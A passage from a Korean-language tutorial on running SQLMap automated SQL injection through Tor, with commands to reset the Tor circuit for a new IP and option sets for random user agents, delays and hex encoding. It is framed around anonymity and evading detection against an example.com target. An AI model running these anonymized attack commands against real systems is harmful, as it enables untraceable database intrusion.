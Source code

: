 ### Tor 회로 재설정 (새 IP 획득)

```bash
echo -e 'AUTHENTICATE ""\r\nSIGNAL NEWNYM\r\nQUIT' | nc 127.0.0.1 9051
```

---

## 2. SQLMap 설치 및 기본 사용법

### 설치 (Kali Linux)

```bash
sudo apt install sqlmap -y
```

### 기본 명령어

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch
```

---

## 3. Tor + SQLMap 기본 조합

### 최소 구성

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 --check-tor \
  --batch
```

### 옵션 설명:

- `--tor`: Tor 네트워크 사용
- `--tor-type=SOCKS5`: SOCKS5 프록시 사용 (Tor의 기본)
- `--check-tor`: Tor 연결 확인
- `--batch`: 모든 대화형 질문에 기본값으로 응답

---

## 4. 고급 익명성 옵션 조합

### 익명성 강화 설정

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 --check-tor \
  --random-agent \
  --delay=3 \
  --timeout=30 \
  --retries=3 \
  --hex \
  --output-dir=/tmp/sqlmap_tor_results
```
